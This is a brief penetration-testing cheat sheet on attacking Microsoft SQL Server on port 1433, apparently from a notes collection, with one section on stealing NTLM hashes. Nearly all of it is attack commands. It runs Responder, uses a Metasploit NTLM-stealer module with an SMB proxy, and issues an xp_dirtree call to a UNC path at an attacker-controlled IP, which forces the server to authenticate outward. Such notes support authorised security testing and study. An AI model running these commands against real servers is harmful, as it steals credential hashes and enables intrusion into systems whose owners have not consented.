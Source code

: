 ```yaml
---
description: A list of Pentesting Techniques for MS-SQL service.
---
```


# MS-SQL - Port 1433

## Steal NTLM hash

```bash
# use responder
└─$ sudo responder -I <IP> -w -d                            

# steal from msfconsole
use admin/mssql/mssql_ntlm_stealer
set SMBPROXY <IP>
exploit

# steal from ms-sql console
SQL> exec master.dbo.xp_dirtree '\\<IP>' 

```
